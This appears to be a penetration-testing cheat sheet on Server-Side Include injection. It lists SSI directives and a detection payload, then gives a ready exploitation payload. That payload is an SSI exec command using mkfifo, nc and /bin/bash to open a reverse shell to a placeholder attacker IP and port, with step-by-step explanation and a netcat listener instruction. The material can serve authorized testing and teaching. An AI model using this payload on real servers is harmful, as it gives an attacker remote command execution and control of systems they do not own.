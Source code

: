 # Server-side Include Injection

## SSI Directives
- Date: <!--#echo var="DATE_LOCAL" -->
- Modification date of a file: <!--#flastmod file="index.html" -->
- CGI Program results: <!--#include virtual="/cgi-bin/counter.pl" -->
- Including a footer: <!--#include virtual="/footer.html" -->
- Executing commands: <!--#exec cmd="ls" -->
- Setting variables: <!--#set var="name" value="Rich" -->
- Including virtual files (same directory): <!--#include virtual="file_to_include.html" -->
- Including files (same directory): <!--#include file="file_to_include.html" -->
- Print all variables: <!--#printenv -->

## Identify the vulnerability
- Use the SSI directives as payload. If the expected values are returned, the application is vulerable.
```bash
<!--#echo var="DATE_LOCAL" -->
```

## Exploit the vulnerability
- Confirm the vulnerability with the payload
```
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

	- mkfifo /tmp/foo: Create FIFO special file.
	- nc <IP> <PORT> 0</tmp/foo: Connect to the pentester machine, redirect standard input.
	- | bin/bash 1>/tmp/foo: Execute /bin/bash, redirect standard output to /tmp/foo.
	- rm /tmp/foo: Cleanup FIFO file.
```
- Set up the Netcat listener on the attacking machine and there should be a connection.


